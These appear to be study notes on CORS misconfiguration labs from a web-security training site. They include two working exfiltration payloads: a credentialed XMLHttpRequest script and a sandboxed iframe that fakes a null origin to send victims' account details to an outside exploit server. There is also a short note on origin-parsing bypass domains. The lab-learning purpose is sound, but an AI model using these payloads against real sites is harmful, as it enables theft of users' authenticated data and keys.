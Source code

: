 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`
Using an `<iframe>` with the `sandbox` attribute can bypass certain restrictions and simulate a `null` origin when testing insecure CORS **configurations**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0ada006c04817488807e76b3005b0066.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a9a008904eb743c806375f8019f00e7.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```